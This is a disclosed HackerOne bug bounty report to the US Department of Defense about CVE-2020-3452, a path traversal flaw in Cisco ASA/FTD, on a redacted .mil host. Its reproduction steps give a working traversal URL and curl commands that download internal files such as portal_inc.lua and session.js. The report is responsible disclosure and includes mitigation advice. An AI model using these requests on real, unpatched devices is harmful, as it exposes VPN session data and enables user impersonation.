 # Read-only path traversal (CVE-2020-3452)  at https://██████.mil

## Report Details
- **Report ID**: 962908
- **URL**: https://hackerone.com/reports/962908
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-08-20T03:31:13.290Z
- **Disclosed**: 2021-04-02T18:42:34.966Z

## Reporter
- **Username**: raginalstorm
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
I discovered a vulnerability Read-only path traversal (CVE-2020-3452)  at https://██████████.mil

**Description:**
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system. The vulnerability is due to a lack of proper input validation of URLs in HTTP requests processed by an affected device.

## Impact
An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences to an affected device. A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device. As an example, this could allow an attacker to impersonate another VPN user and establish a Clientless SSL VPN or AnyConnect VPN session to the device as that user. The web services file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files.

## Step-by-step Reproduction Instructions
- In a web browser, navigate to  https://██████.mil/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../

- Once URL is fully loaded, you will be prompted to download file `translation-table` that represents `portal_inc.lua` which you can then open and observe its content.
██████████
███████

- Alternatively, you can execute the below linux bash terminal command to download that same file `portal_inc.lua`: 

```
curl -k "https://██████████.mil/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" --output portal_inc.lua 
```

- You can download various internal files using curl flag `--output` to output the binary data to a file:
 
```
curl -k "https://█████████.mil/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/session.js&default-language&lang=../" --output session.js 
```

## Product, Version, and Configuration (If applicable)
WebApp endpoint

## Suggested Mitigation/Remediation Actions
- Cisco has released software updates that address this vulnerability. There are no workarounds that address this vulnerability.
- This advisory is available at the following link https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86

## Impact

An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences to an affected device. A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device. As an example, this could allow an attacker to impersonate another VPN user and establish a Clientless SSL VPN or AnyConnect VPN session to the device as that user. The web services file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files.

## Attachments
No attachments
